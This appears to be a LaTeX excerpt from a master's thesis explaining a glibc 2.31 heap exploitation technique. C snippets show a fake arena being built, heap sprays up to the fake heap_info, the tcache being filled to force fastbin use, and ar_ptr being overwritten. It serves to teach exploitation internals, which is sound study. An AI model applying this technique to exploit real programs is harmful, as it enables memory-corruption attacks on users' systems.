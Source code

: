 \documentclass{masterthesis}
\newcommand*\libc{glibc}
\newcommand*\tch{tcache}
\newcommand*\fb{fast bins}
\begin{document}
The second step is to initialize the mentioned fake arena and target location. Then, initial \lstinline{malloc_state} of the arena, also, \lstinline{system_mem} field. This field is used to validate the size of the chunk, so it must be larger than our chunk size.
\begin{lstlisting}[language=c,frame=tlrb]
fake_arena[0x888] = 0xFF;
fake_arena[0x889] = 0xFF;
fake_arena[0x88a] = 0xFF;
\end{lstlisting}

Now we need to find the location of fake arena
\begin{lstlisting}[language=c,frame=tlrb]
uint64_t new_arena_value = (((uint64_t) target_chunk) + HEAP_MAX_SIZE) & ~(HEAP_MAX_SIZE - 1);
uint64_t* fake_heap_info = (uint64_t*) new_arena_value;
\end{lstlisting}

The next step as we told, the location of fake arena is located at an offset of the heap so we have to allocate fake chunks until reach the fake new arena:
\begin{lstlisting}[language=c,frame=tlrb]
uint64_t* user_mem = malloc(MAX_SIZE);
while((long long)user_mem < new_arena_value){
	 /* ... */
	user_mem = malloc(MAX_SIZE);
}
\end{lstlisting}

As we told, this approach use the \fb{} approach, so, we need a chunk in range of the \fb{} chunk, also, a pointer to chunk:

\begin{lstlisting}[language=c,frame=tlrb]
uint64_t* fastbin_chunk = malloc(0x50)
uint64_t* chunk_ptr = fastbin_chunk - 2
\end{lstlisting}
This file work on \libc{-2.31} which support \tch{} as the first mechanism, so, like \lstinline{fastbin_dup}, all we need is to fill up the \tch{} to force the heap manager role back to the \fb{}

\begin{lstlisting}[language=c,frame=tlrb]
uint64_t* tcache_chunks[7];
for(int i = 0; i < 7; i++){
	tcache_chunks[i] = malloc(0x50);
}
for(int i = 0; i < 7; i++){
	free(tcache_chunks[i]);
}
\end{lstlisting}

The next step is setting up \lstinline{ar_ptr} of heap structure in the fake heap. This field is the first one in the structure at offset 0x00.

\begin{lstlisting}[language=c,frame=tlrb]
fake_heap_info[0] = (uint64_t) fake_arena
\end{lstlisting}
\end{document}
